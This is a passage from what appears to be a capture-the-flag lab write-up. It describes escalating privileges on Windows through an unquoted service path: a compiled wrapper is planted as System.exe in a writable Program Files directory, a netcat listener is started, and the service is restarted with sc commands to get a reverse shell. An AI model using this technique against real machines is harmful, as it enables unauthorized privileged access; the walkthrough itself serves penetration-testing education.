 Then the wrapper.cs file is compiled with mcs:

`msc Wrapper.cs`

![alt-48](/assets/img/wreath-writeup/Get-Wrapper.png)

A writable directory is located at C:\Program Files (x86)\System
Explorer\\ and my wrapper program will be named System.exe in this
directory to be executed when the service restarts.

With the System.exe file in place, and a netcat listening, the service
can be restarted with:

`sc stop SystemExplorerHelpService`

And then

`sc start SystemExplorerHelpService`
